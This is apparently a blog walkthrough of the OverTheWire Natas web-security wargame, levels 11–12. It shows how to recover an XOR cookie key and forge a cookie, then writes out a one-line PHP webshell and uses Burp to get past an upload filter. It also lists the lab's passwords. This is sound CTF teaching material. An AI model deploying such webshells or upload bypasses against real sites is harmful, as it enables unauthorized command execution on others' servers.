 ```yaml
---
title: OverTheWire - Natas (11-20)
date: 2024-01-09
categories: [OverTheWire, Natas]
tags: [overthewire, natas, web-security]
img_path: /assets/overthewire/natas
published: true
image:
    path: natas.jpg
---
```


---

<center> <a href="https://cspanias.github.io/posts/OverTheWire-Natas-(0-10)">[Level 0-10]</a> </center>

---

## [Level 10 &rarr; 11](https://overthewire.org/wargames/natas/natas11.html)

> Password: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

![](natas11_home.png){: .normal width="80%"}

This level mentions that the "_Cookies are protected with **XOR encryption**_" and gives us the ability to customize the background colour. The source code involves five functions:

> [XOR Encryption Algorithm](https://www.101computing.net/xor-encryption-algorithm/)

1. The following code line defines the variable `defaultdata` which is an array of what we are basically see in the homepage, that is, while background and the inability to see the password:

    ```php
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    ```

2. The `xor_encrypt` method, as the name suggests, XOR encrypts an input. The key is _censored_, so finding this will be our main goal. What it actually does is declaring a predefined key, assigning the input to the `text` variable, and store the result of the XOR bitwise operation (`text ^ key`) in the `outText` variable:

    > [PHP bitwise operators](https://www.geeksforgeeks.org/php-bitwise-operators/).

    ```php
    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';

        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }
    ```

3. The `loadData` method takes the **cookie value**, decodes it, and then uses it to set web page values, such as the background color and the visibility of the password. If there is a `data` array from the browser cookie, its value is **base64** decoded, then **XOR encrypted**, and then **JSON** decoded. Then the `bgcocol` is read out of the array and checked against a hex color regex. If the `showpassword` key exists, it is also copied over to the `mydata` value:

    > **XOR encryption** is the same with **XOR decryption** since XOR is reversible with the same mathematical function.

    ```php
    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
        $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
        if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
            if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
            }
        }
        }
        return $mydata;
    }
    ```

4. The `saveData` function base64 encodes, XOR encrypts and JSON encodes the data array and saves it as a cookie in the user's browser:

    ```php
    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }
    ```

5. The below code lines request from the user to input the `bgcolor` value:

    ```php
    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }
    ```

6. The last function, `saveData` is called with the default values loaded in:

    ```php
    $data = loadData($defaultdata);
    saveData($data);
    ```

We can first find our session's cookie value via the Inspector tool, which is `MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D`:

![](natas11_sessionCookie.png)

If we visit [CyberChef](https://gchq.github.io/CyberChef/) and URL decode our cookie we get the following:

![](natas11_urlDecode.png)

From breaking down the function, we know the the cookie value includes `showpassword=no` and our goal is to change it to `showpassword=yes`. Our cookie was generated by `setcookie("data", base64_encode(xor_encrypt(json_encode($d))));`. The problem is that we don't do the key for performing the XOR encryption!

We can use a [PHP compiler](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_compiler&ref=learnhacking.io) and copy paste some of the functions in order to make our own cookie:

![](natas11_phpCompiler.png)

We have the cookie value of `eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=`, while the XOR encoded cookie is `MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`. 

The former is generated with the same exact values as the latter: ` showpassword: no, bgColor: #ffffff`. Because of the [associative property of XOR](https://accu.org/journals/overload/20/109/lewin_1915/?ref=learnhacking.io), it does not matter what order we do XOR in, we should get the same answer:
1. plaintext XOR key = ciphertext
2. ciphertext XOR key = plaintext
3. **ciphertext XOR plaintext = key**

We have both the ciphertext (`MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`) and then plaintext (`eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=`), so by performing a XOR operation between them we can get the key, and then use it to create a new cookie value and encrypt it:

![](natas11_xorDecoding.png)

This gives us the value `KNHL` as the XOR key. We can confirm this as follows:

![](natas11_xorDecoding1.png)

Now, we can make a new cookie with the JSON object `{"showpassword":"yes","bgcolor":"#ffffff"}`, XOR encrypt it, and then base64 encode it:

![](natas11_cookieFinal.png)

We can finally change our session cookie and get the password for the next level:

![](natas11_pass.png)

## [Level 11 &rarr; 12](https://overthewire.org/wargames/natas/natas12.html)

> Password: YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

![](natas12_home.png){: .normal width="80%"}

This time the web server has an option for uploading an image. This level is focused on [**file upload vulnerabilities**](https://portswigger.net/web-security/file-upload) and how to bypass an extension change. Our goal is to upload a webshell from which we can execute a command to read the next level's password. Let's start by creating the webshell:

```bash
# create the websehll
$ nano webshell.php
# give execute permissions to the file
$ sudo chmod +x webshell.php
# display the file's contents
$ cat webshell.php
<?php echo system($_GET['command']); ?>
# confirm permissions
$ ls -l webshell.php
-rwxr-xr-x 1 kali kali 40 Jan 17 21:26 webshell.php
```

Let's try to upload it:

![](natas12_webshell_upload.png){: .normal}

Our `webshell.php` was renamed to `jsflwp41if.jpg`! We don't care much about the first part, but we need to find a way to keep the `.php` extension, so we can execute it. We can intercept the `POST` request when uploading the file to see what it looks like:

![](natas12_burp_repeater1.png)

Since the extension change happens on our `POST` request, we can simply manually change it back to `.php` and then send the request again:

![](natas12_burp_repeater2.png)

![](natas12_webshell_upload_php.png){: .normal}

That seemed to have worked! Upon clicking the link, we get some warnings. This is because our webshell expects a `command` parameter and it is not there yet:

![](natas12_webshell_error.png)

We can now test our webshell by passing any command, such as `id`, and see if we get back any output:

![](natas12_id.png)

Since it worked fine, we can now pass a command for reading the next level's password:

![](natas12_pass.png)

## [Level 11 &rarr; 12](https://overthewire.org/wargames/natas/natas12.html)

> Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

<!--
---

<center> <a href="https://cspanias.github.io/posts/OverTheWire-Natas-(21-34)/">[Level 21-34]</a> </center>

---
-->